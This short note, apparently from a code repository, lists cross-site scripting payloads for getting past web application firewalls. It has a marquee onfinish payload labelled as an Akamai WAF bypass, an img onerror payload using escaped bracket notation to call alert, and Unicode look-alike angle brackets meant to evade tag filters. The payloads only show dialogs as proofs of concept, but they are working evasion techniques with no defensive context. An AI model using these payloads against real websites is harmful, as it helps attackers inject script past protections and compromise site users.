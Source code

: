 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.<br>
<img/src/onerror=self\[\'alert\'\]\(document.domain\)>

＜⧀ ﹤ ﹥ ⧁ ＞  ＜h1＞POC＜h1＞ ﹤h1﹥POC﹤h1﹥

